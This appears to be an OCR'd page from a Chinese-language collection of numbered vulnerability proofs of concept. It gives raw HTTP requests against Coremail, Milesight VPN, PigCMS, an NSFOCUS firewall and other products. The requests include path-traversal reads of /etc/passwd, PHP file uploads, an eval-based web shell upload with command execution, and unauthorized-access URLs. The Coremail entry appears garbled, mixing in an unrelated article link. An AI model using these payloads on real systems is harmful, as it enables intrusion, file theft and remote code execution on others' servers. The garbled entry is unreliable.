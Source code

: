 ### 40、Coremail 邮件系统未授权访问获取管理员账密

POC：
/coremail/common/assets/:/:/:/:/:/:/s?
biz=Mzl3MTk4NTcyNw==&mid=2247485877&idx=1&sn=7e5f77db320ccf9013c0b7aa7262
6688chksm=eb3834e5dc4fbdf3a9529734de7e6958e1b7efabecd1c1b340c53c80299ff5c688b
f6adaed61&scene=2

41、Milesight VPN server.js 任意文件读取漏洞

POC:
GET /../etc/passwd HTTP/1.1
Host:
Accept: /
Content-Type: application/x-www-form-urlencoded

42、PigCMS action_flashUpload 任意文件上传漏洞

POC:
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload
HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa
------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv
<?php phpinfo();?>
------aaa
/cms/upload/images/2023/08/11/1691722887xXbx.php

43、绿盟 NF 下一代防火墙 任意文件上传漏洞

POC:
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host:
--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"
<?php eval($_POST['cmd']);?>
--4803b59d015026999b45993b1245f0ef--
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:
cmd=phpinfo();

44、金盘 微信管理平台 getsysteminfo 未授权访问漏洞

POC:
/admin/weichatcfg/getsysteminfo
45、Panel loadfile 后台文件读取漏洞

POC:
POST /api/v1/file/loadfile
{"paht":"/etc/passwd"}

